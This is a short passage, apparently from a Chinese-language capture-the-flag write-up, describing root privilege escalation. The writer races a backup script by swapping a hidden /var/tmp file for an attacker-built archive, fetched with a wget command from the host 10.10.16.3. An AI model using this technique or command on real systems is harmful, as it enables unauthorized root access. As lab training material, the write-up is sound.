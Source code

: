 当`pspy32`监听到`/usr/sbin/backuperer`执行的时候，在30秒内快速删除掉`/var/tmp/.2aecc95...`的隐藏文件，并把打包好的`exp.tar.gz`下载并重命名到`/var/tmp/.2aecc95...`

```bash
wget 10.10.16.3/exp.tar.gz -O /var/tmp/.2aecc95...
```

等待一会root会把压缩包解压到`/var/tmp/check/`

![](image/image_6mH0WycVZy.png)

提权成功

![](image/image_99-4esBi7g.png)
